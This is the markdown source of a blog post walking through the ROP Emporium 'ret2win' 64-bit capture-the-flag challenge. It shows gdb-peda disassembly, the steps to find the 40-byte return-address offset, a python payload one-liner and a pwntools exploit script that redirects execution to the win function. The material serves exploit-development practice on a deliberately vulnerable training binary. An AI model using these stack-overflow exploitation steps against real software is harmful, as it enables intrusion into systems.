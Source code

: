 ```yaml
---
layout: post
title:	"[ROP-Emporium]: Ret2Win 64-bit Challenge solution"
date:	2019-08-08 15:00:00
categories:
    - blog
tags:
    - linux
    - ropchain
    - ret2libc
    - Buffer Overflow
---
```

`ROP-Emporium` is a website, which offers few challenges for those who wants practicing  building ropchains.

First challenge is called: `ret2win`, which is simple and doesn't require building ropchain. It has function: `ret2win()` which executes `system("/bin/cat flag.txt")` libc call. But it isn't called in normal program execution.
{% highlight text %}
gdb-peda$ disas ret2win
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:     push   rbp
   0x0000000000400812 <+1>:     mov    rbp,rsp
   0x0000000000400815 <+4>:     mov    edi,0x4009e0
   0x000000000040081a <+9>:     mov    eax,0x0
   0x000000000040081f <+14>:    call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:    mov    edi,0x4009fd
   0x0000000000400829 <+24>:    call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:    nop
   0x000000000040082f <+30>:    pop    rbp
   0x0000000000400830 <+31>:    ret    
End of assembler dump.
gdb-peda$ x/1s 0x4009fd
0x4009fd:       "/bin/cat flag.txt"
gdb-peda$ 
{% endhighlight %}

On line `ret2win+19` we see: ***mov edi, 0x4009fd*** which means moving address into `edi` register.

Our aim here is following:

- Find exact offset from where saved return address is being overwritten.
- Find address of `ret2win()` address and replace return address with this function's address.

So, at first create pattern via `gdbpeda` or `pattern_create.rb` from metasploit framework. I choose gdbpeda:
{% highlight text %}
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ 
{% endhighlight %}

fed into running binary and look at registers:
{% highlight text %}
RSI: 0x7ffff7fab8d0 --> 0x0 
RDI: 0x7fffffffe111 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
{% endhighlight %}

And because RBP and and saved return address is together in memory we do the following:
{% highlight text %}
gdb-peda$ pattern offset 0x6141414541412941
7007954260868540737 found at offset: 32
gdb-peda$ 
{% endhighlight %}

Offset is 32 of RBP value but we add 8 bytes to it and we have offset: 40
create pattern with size 40 and append `\xBB\xBB\xBB\xBB` to it. Program crashes and RIP register is replaced with:
{% highlight text %}
RSP: 0x7fffffffe140 --> 0x400840 (<__libc_csu_init>:    push   r15)
RIP: 0xa42424242 ('BBBB\n')
R8 : 0x60228d --> 0x0 
R9 : 0x7ffff7fb0500 (0x00007ffff7fb0500)
{% endhighlight %}


**Finding address of ret2win function**

At first, we can use `nm` tool to extract symbol information from the binary:
{% highlight text %}
root@kali:~/ROPEmporium/ret2win# nm ./ret2win
[...]

00000000004006c0 t register_tm_clones
0000000000400811 t ret2win
                 U setvbuf@@GLIBC_2.2.5
[...]
0000000000601060 D __TMC_END__
{% endhighlight %}

As we can see we got address: `0x400811` to which we have to jump via `RIP` register. Then I built simple payload to fed into the binary via python one-liner:
{% highlight text %}
$ python -c "import struct; print 'A'*40 + struct.pack('<Q', 0x400811)" > payload.txt
{% endhighlight %}

result:
{% highlight text %}
root@kali:~/ROPEmporium/ret2win# cat payload.txt | ./ret2win 
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
{% endhighlight %}


**Playing with pwntools**

{% highlight python %}
from pwn import *

def main():
    p = process("./ret2win")
    ret2win_address = 0x400811
    payload = "A"*40 + p64(ret2win_address) + "C"*100

    print p.recvuntil('>')

    p.send(payload)
    print "%s" % p.recvline()

if __name__ == "__main__":
    main()

{% endhighlight %}

{% highlight python %}
root@kali:~/ROPEmporium/ret2win# python pwntool.py 
[+] Starting local process './ret2win': pid 5352
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

>
 Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}

[*] Stopped process './ret2win' (pid 5352)
{% endhighlight %}